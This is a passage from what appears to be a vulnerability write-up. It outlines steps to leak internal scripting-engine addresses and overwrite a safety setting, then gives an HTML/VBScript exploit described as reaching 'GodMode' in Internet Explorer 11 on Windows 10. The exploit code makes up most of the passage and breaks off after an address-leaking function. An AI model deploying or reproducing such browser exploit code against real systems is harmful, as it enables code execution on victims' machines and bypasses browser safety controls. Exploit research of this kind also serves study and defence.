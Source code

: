   1. Create a (dummy) VBScriptClass instance.
  2. Get the address of the class instance.
  3. Leak CSession address from the class instance.
  4. Leak COleScript address from the CSession instance.
  5. Overwrite SafetyOption in COleScript

Here's the final exploit to gain the "GodMode" in Internet Explorer 11 on Windows 10:

```html
<html>
<head>
<meta http-equiv="x-ua-compatible" content="IE=10">
</head>
<body>
    <script type="text/vbscript">
        Dim aw
        Dim plunge(32)
        Dim y(32)
        prefix = "%u4141%u4141"
        d = prefix & "%u0016%u4141%u4141%u4141%u4242%u4242"
        b = String(64000, "D")
        c = d & b
        x = UnEscape(c)

        Class ArrayWrapper
            Dim A()
            Private Sub Class_Initialize
                ' 2x2000 elements x 16 bytes / element = 64000 bytes
                ReDim Preserve A(1, 2000)
            End Sub

            Public Sub Resize()
                ReDim Preserve A(1, 1)
            End Sub
        End Class

        Class Dummy
        End Class

        Function getAddr (arg1, s)
            aw = Null
            Set aw = New ArrayWrapper

            For i = 0 To 32
                Set plunge(i) = s
            Next

            Set aw.A(arg1, 2) = s

            Dim addr
            Dim i
            For i = 0 To 31
                If Asc(Mid(y(i), 3, 1)) = VarType(s) Then
                    addr = strToInt(Mid(y(i), 3 + 4, 2))
                End If
                y(i) = Null
            Next

            If addr = Null Then
                document.location.href = document.location.href
                Return
            End If

            getAddr = addr
        End Function
```